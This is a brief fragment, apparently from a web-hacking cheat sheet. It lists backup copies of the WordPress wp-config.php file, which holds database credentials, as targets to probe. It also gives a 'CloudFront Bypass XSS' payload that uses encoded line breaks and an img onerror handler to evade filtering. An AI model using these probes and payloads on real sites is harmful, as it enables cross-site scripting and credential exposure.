 
#### WP-Config:

* wp-config.php.swp
* wp-config.php.old

CloudFront Bypass XSS: `">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>`